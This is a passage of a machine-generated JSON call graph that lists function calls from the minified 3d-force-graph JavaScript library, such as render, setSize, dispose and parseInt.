"_updateRotationVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateMovementVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateRotationVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateMovementVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getContainerDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateRotationVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateMovementVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateRotationVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateMovementVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateRotationVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "material"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "material"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLocked"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "swapBuffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addPass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insertPass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removePass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isLastEnabledPass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "swapBuffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "file"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "retinaImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "animation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "animation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "file"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "retinaImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "animation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "animation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 